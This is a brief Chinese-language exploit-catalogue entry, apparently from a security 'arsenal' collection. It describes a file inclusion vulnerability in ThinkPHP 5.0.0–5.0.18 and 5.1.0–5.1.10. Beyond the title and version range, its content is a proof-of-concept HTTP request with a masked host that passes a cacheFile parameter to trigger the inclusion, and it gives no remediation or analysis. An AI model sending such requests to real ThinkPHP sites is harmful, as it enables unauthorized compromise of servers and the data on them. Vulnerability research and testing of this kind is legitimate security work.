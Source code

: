 ```yaml
---
title: 'Thinkphp5文件包含漏洞'
date: Sat, 03 Oct 2020 02:05:31 +0000
draft: false
tags: ['白阁-武器库']
---
```


### 影响范围

5.0.0 <= Thinkphp <= 5.0.18 5.1.0 <= ThinkPHP <= 5.1.10

### 漏洞POC

```
http://**********/index/index/index?cacheFile=1.jpg
```